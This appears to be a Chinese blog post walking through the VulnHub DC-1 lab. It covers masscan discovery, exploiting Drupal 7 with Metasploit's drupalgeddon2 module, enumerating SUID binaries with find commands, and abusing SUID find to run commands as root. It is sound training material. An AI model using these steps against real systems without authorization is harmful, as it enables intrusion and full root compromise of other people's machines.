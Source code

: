 ```yaml
---
layout: post
title: 'linux提权'
subtitle: 'SUID提权'
date: 2021-06-05
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全
---
```

### linux SUID提权
> 1.下载环境
https://www.vulnhub.com/entry/dc-1-1,292/

用vm虚拟机打开，运行，并设置桥接
> 2.用masscan扫描与主机同一内网的80端口，查找网站地址
![](https://1024861435.github.io/assets/img/suid1.png)
发现有三个主机开启80端口，.1肯定路由器，于是用网站访问192.168.1.137发现该网站
![](https://1024861435.github.io/assets/img/suid2.png)
发现访问到该网站，得到该服务器IP地址
> 3.用kali的masscan查询该网站信息
![](https://1024861435.github.io/assets/img/suid3.png)
发现是durpal 7框架
> 4.开启msfconselo并search durpal
![](https://1024861435.github.io/assets/img/suid4.png)
使用模块exploit/unix/webapp/drupal_drupalgeddon2并执行shell
![](https://1024861435.github.io/assets/img/suid5.png)
> 5.查找符合suid条件的文件
find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;
![](https://1024861435.github.io/assets/img/suid6.png)
> 6.如果find以SUID权限运行，所有通过find执行的命令都会以root权限运行。
touch test

find test -exec whoami \;

![](https://1024861435.github.io/assets/img/suid7.png)
> 7.用root权限访问root并得到flag文件
![](https://1024861435.github.io/assets/img/suid8.png)
      